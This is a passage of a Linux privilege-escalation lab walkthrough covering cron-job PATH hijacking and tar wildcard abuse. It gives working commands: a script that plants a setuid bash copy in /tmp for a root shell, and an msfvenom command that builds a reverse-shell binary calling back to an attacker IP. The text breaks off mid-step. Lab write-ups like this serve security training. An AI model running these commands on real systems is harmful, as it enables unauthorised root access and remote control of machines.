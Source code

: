 <figure><img src=".gitbook/assets/image (56).png" alt=""><figcaption><p>1</p></figcaption></figure>

### 8 - Cron Jobs - PATH Environment Variable

View the contents of the system-wide crontab:

`cat /etc/crontab`

Note that the PATH variable starts with /home/user which is our user's home directory.

Create a file called overwrite.sh in your home directory with the following contents:

```bash
#!/bin/bash

cp /bin/bash /tmp/rootbash
chmod +xs /tmp/rootbash
```

Make sure that the file is executable:

`chmod +x /home/user/overwrite.sh`

Wait for the cron job to run (should not take longer than a minute). Run the `/tmp/rootbash`  command with -p to gain a shell running with root privileges:

`/tmp/rootbash -p`

### 9 - Cron Jobs - WildCards

View the contents of the other cron job script:

`cat /usr/local/bin/compress.sh`

Note that the tar command is being run with a wildcard (\*) in your home directory.

Take a look at the GTFOBins page for [tar](https://gtfobins.github.io/gtfobins/tar/). Note that tar has command line options that let you run other commands as part of a checkpoint feature.

Use msfvenom on your Kali box to generate a reverse shell ELF binary. Update the LHOST IP address accordingly:

`msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f elf -o shell.elf`

Transfer the shell.elf file to /home/user/ on the Debian VM (you can use scp or host the file on a webserver on your Kali box and use wget). Make sure the file is executable:
